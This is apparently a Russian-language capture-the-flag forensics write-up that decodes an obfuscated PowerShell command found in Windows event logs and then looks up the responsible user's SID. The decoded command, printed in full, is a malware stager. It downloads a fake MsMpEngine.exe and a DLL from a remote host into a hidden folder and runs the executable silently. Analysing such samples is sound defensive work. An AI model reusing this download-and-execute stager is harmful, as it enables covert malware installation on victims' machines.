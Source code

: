 Это обфусцированный PowerShell скрипт, который:

1. **Декодирует Base64**  
   Извлекает закодированные данные из строки в формате Base64.

2. **Распаковывает Gzip**  
   Деархивирует сжатые данные с использованием алгоритма Gzip.

3. **Выполняет распакованный код через Invoke-Expression**  
   Исполняет декодированные и распакованные команды PowerShell с помощью `Invoke-Expression`.

### Получаем исходный код:

```
┌──(root㉿scrock)-[~/mnt/chall1/task/evtx_results]
└─# echo "H4sIAAAAAAAA/5TOzU6DQBAH8FcZNz1AIgv0oC3Ek6WRpB9YanrphbJTO2a7S5ZRJMZ3N3jQxPTiZQ7z8fvPSJGDOxAjNG/JU5ltis16ni+yvTxT7WxrjyxSoCN4V94WWw6Kik8wXPk+fMAKuyBnPMN33fYNwowc1mxdD7+78JnC6NXpIenE3CRhGE/HMr6ZyPg2lvF4mkyiKBIpeIO4PrxgzbBCljs83GtCw76c2c5oW6k5afTEwIXLdtlk5pkMSnxHcQ1iSNv/afv/ZcvHBTHK3DA620il9Q99YeSnUHLlOCicrbFtLz8BwY6Msl3JvUZ4IKXQfAUAAP//NycKn30BAAA=" | base64 -d | gzip -d
$dir = "$env:USERPROFILE\.microsoft"; if (!(Test-Path $dir)) { New-Item -ItemType Directory -Path $dir }; $url = "http://192.168.171.129:8000"; 
(New-Object Net.WebClient).DownloadFile("$url/MsMpEngine.exe", "$dir\MsMpEngine.exe"); 
(New-Object Net.WebClient).DownloadFile("$url/SQLite.Interop.dll", "$dir\SQLite.Interop.dll"); 
Start-Process "$dir\MsMpEngine.exe" -WindowStyle Hidden
```

Данный скрипт выполняет следующие действия:

1. **Создание скрытой директории**  
   Создает скрытую папку в домашней директории пользователя (`$env:USERPROFILE`)

2. **Загрузка файлов с удаленного сервера**  
   Загружает вредоносные компоненты:
   - `MsMpEngine.exe` (маскировка под компонент Windows Defender)
   - `SQLite.Interop.dll` (библиотека для работы с SQLite)

3. **Запуск вредоносного исполняемого файла**  
   Выполняет загруженный `MsMpEngine.exe` с повышенными привилегиями

4. **Декодирование Base64**  
   Извлекает закодированные данные из строки в формате Base64

5. **Распаковка Gzip**  
   Деархивирует сжатые данные с использованием алгоритма Gzip

6. **Исполнение кода через Invoke-Expression**  
   Запускает декодированные и распакованные команды PowerShell

Теперь нам нужно узнать кто запустил эту команду, получить SID пользователя мы можем также в Microsoft-Windows-PowerShell%4Operational.json

```
{"ChunkNumber":0,"Computer":"DESKTOP-JDMCC6F","Payload":"{\"EventData\":\"\"}","UserId":"S-1-5-21-4066093945-3834177589-3221255045-1001","Channel":"Microsoft-Windows-PowerShell/Operational","Provider"
:"Microsoft-Windows-PowerShell","EventId":40962,"EventRecordId":"6","ProcessId":4712,"ThreadId":8384,"Level":"Info","Keywords":"0x0",
"SourceFile":"C:\\Users\\scrock_\\Desktop\\a\\iso\\ctf\\EHAX++\\chall1\\task\\Logs\\Microsoft-Windows-PowerShell%4Operational.evtx",
"ExtraDataOffset":0,"HiddenRecord":false,"TimeCreated":"2025-06-25T03:40:24.1211486+00:00","RecordNumber":6}
```
